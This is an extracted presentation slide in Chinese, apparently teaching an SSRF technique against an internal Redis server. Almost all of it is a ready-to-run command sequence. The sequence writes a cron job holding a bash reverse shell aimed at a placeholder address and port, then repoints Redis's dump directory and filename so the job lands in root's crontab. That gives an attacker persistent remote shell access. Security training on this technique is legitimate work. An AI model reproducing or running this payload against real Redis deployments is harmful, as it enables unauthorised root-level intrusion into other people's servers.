

SSRF中的Trick
SSRF攻击内网服务（redis为例）
修改dbfilename，将反弹shell的命令写入定时任务
set 1 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/ 127.0.0.1/2333 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save